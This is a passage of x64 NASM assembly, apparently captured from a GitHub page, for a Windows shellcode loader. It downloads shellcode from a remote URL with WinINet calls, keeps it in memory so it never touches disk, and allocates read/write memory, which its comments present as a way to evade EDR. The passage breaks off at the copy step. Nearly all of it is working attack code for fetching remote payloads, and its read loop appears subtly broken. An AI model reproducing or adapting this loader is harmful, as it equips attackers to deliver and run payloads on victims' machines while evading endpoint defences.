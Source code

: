 ```nasm
    mov qword [rsp+0x20], 0 ; dwFlags
    call InternetOpenA
    mov [rel hInternet], rax             ; hInternet

    ; ---- InternetOpenUrlA ----
    ; Opens a handle to our github URL

    mov rcx, [rel hInternet]           ; hInternet
    lea rdx, [rel url]                 ; lpszUrl
    xor r8d, r8d                       ; lpszHeaders
    xor r9d, r9d                       ; dwHeadersLength
    mov dword [rsp+0x20], 0x4000000    ; dwFlags
    mov qword [rsp+0x28],0             ; dwContext
    call InternetOpenUrlA
    mov [rel hUrl], rax                       ; hUrl

    ;******************************************************************************************************
    ; download the file in chunks.  the data remains resident in memory and never touches disk
    ; we loop until we download all the shellcode and then save the memory location for the downloaded data
    ;******************************************************************************************************
    read_loop:
    ; ---- InternetReadFile ----
    mov rcx, [rel hUrl]                   ; HINTERNET hUrl
    lea rdx, [rel chunk]                  ; LPVOID lpBuffer
    mov r8d, 4096                     ; DWORD dwNumberOfBytesToRead
    lea r9, [rel bytesRead]               ; LPDWORD lpdwNumberOfBytesRead
    xor rax, rax
    call InternetReadFile
    test eax, eax
    je read_done
    cmp dword [rel bytesRead], 0
    jbe read_done

    mov ecx, dword [rel bytesRead]        ; load the DWORD from [r9] into ECX (the total bytes for our shellcode!)
    mov [rel totalBytes], ecx             ; store that value into totalBytes

   jmp read_loop

    read_done:
    ; ---- Close handles ----
    mov rcx, [rel hUrl]
    call InternetCloseHandle
    mov rcx, [rel hInternet]
    call InternetCloseHandle

    ; ---- Allocate memory ----
    ; allocate memory for our shellcode and make the memory location read/write for now.  less of a footprint for EDR

    mov rcx, 0                    ; LPVOID lpAddress = NULL
    mov rdx, 0x5000               ; SIZE_T dwSize = 20 KB for shellcode
    mov r8d, 0x3000               ; MEM_COMMIT | MEM_RESERVE
    mov r9d, 0x04                 ; PAGE_READWRITE temporarily
    call VirtualAlloc
    mov [rel mem_buffer], rax

    ; ---- Copy shellcode ----
    ; Normally use memcpy(mem_buffer, chunk, bytesRead) or multiple chunks
    ; Decided to use RtlMoveMemory instead :)
```